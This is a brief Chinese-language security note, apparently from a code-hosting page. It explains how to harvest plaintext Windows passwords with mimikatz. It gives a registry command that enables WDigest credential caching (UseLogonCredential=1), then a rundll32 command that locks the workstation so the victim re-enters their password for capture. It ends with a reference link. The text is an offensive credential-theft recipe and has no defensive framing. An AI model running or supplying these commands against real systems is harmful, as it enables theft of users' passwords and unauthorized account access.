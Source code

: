 mimikatz有个功能是：对方处于锁屏状态时解锁，即可抓到明文密码，前提需要先修改一处注册表
```
reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest\ /v UseLogonCredential /t REG_DWORD /d 1
```
命令行下锁屏命令
```
rundll32.exe user32.dll,LockWorkStation
```

参考链接：  
https://mp.weixin.qq.com/s/_OfE6XAGO7gRtMYWcOCGiQ
